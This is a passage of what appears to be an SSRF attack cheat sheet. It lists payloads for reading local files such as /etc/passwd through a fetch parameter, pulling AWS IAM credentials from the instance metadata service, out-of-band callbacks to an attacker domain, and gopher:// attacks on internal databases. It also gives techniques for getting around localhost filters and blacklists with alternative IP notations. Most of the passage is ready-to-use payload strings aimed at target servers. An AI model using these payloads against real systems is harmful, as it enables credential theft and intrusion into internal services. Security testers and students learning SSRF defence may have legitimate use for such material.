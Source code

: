 ## File Protocol Exploitation
- Exploit the `file://` protocol to access local files.
	```
	http://<target_domain>/fetch?url=htttp://localhost:80/
	http://<target_domain>/fetch?url=ftp://localhost:21/
	http://<target_domain>/fetch?url=file:///etc/passwd
	```

## Cloud Metadata Service (AWS)
- Access AWS instance metadata service to retrieve credentials or sensitive instance information.
	```
	http://169.254.169.254/latest/meta-data/
	```

- Extract IAM credentials:
	```
	http://169.254.169.254/latest/meta-data/iam/security-credentials/
	```

## External DNS or HTTP Requests (OOB Detection)
- Use an external URL to confirm if the server is making outbound requests. This can be useful in blind SSRF.
	```
	http://<attacker_domain>/log
	```

## Gopher Protocol Exploitation (RCE)
- In rare cases, using the `gopher://` protocol can be used to exploit internal services that expect specific payloads, such as SQL injections or Redis commands.
	```
	gopher://localhost:3306/_SQL_PAYLOAD
	```

# Bypassing Defenses

Here are techniques to bypass common SSRF defenses:

## Bypass Input Validation
- Applications may use simple checks for strings like `localhost` or `127.0.0.1`. Bypass these filters using alternative IP notations:
  - **Hexadecimal IP:** `http://0x7f000001`
  - **Octal IP:** `http://0177.0000.0000.0001`
  - **Dotted Decimal:** `http://127.1`

## Bypass Blacklists
- Some applications blacklist certain keywords or IP ranges. Use alternative domain names or subdomains:
  - Use `localhost.com` (if it resolves to `127.0.0.1`).
  - Use internal DNS names that resolve to internal IPs.

